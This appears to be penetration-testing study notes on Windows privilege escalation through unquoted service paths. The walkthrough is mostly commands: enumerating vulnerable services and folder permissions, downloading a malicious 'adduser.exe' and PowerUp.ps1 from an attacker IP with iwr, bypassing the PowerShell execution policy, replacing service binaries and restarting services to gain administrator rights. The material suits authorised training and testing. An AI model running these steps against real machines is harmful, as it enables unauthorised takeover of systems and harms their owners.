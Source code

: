 
### Unquoted Service Paths

We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

You can use this script in cmd to search for these files:

```bash
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Now, you need to check if you have the permissions to start and stop the services that you (assumably) have found:

```bash
Start-Service GammaService
Stop-Service GammaService
```

Now, you need to see if you have the permissions to write in any of the vulnerable directories:

```bash
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

You can use the same executable that we made above to replace the binary file.

```bash
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
Start-Service GammaService
net user 
net localgroup administrators # Verify the executable worked
```

If you can't seem exploit an unquoted service path, try renaming the current service to something else, that way you're not deleting it, which can fail if the service is running or for permissions. Then, you upload your own binary and move it to the name of the original binary.

If you have permissions over the service, you can modify the service's executable path:

```bash
sc config servicename binPath= "C:\Path\To\New\Service.exe"
```

Don't forget to put everything back where it was. :)

**Automated Unquoted Service Paths Exploitation**

```bash
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
net user
net localgroup administrators # Verify
```
